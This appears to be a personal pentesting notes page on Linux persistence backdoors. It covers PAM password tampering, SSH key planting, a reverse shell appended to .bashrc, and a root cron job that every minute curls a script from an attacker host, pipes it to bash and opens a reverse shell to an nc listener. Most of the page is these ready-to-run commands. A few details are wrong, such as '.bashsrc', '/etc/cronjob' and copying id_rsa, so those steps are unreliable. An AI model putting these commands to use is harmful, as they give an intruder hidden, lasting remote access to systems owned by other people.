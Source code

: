 
![Garage door](https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExOTI4YTQxMDEzNTRiOTQzMmFjMzQxZmQ2NTg2MDRjZjQwYTUzZDIxNCZlcD12MV9pbnRlcm5hbF9naWZzX2dpZklkJmN0PWc/3o6Mb6aijVsBCIc6oU/giphy.gif)

>[!INFO]
>A backdoor refers to **any method** by which **authorized** and **unauthorized users** are able to get around normal security measures and **gain high level** user access (aka root access) on a computer **system**, **network**, or **software application**.
They are known for being **discreet**. Backdoors exist for a select group of people in the know to **gain easy access to a system or application**.

# PAM

>[!INFO]
>This backdoor essentially consists of **adding your own password** to the **pam_unix.so** file

_pam\_unix.so_ file is responsible for **authentication**

![[Pasted image 20240906155618.png]]

_pam\_unix.so_ uses the unix\_verify\_password function to verify to user's supplied password **:**

![[Pasted image 20240906155623.png]]

# .bashsrc

>[!INFO]
>If a user has **bash** as their **login shell**, the "**.bashrc**" file in their home directory is **executed** when an interactive session is launched.

Any user that log in often :

```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

- **Put a nc listener**

# CronJob

## With a root access

>[!INFO]
>_cronjobs file ->_ _**/etc/cronjob**_

- Configure a task where every minute a reverse shell is sent to you. Add this line into your cronjob file :

```
* *     * * *   root    curl http://$attacker_ip:8080/shell | bash
```

- Add this to the **shell** file :

```bash
#!/bin/bash
bash -i >& /dev/tcp/$ip/$port 0>&1
```

- On the attacker machine :

```bash
nc -nvlp $port
```

# SSH

>[!INFO]
>Consists in **saving** our **ssh keys** in some **user’s home** directory. Then we can access it via ssh.

## Generate ssh key

```bash
ssh-keygen
```

## Copy our key into the user's .ssh directory

```bash
# if no .ssh directory -> create it
mkdir .ssh 

cp id_rsa .ssh/id_rsa
```
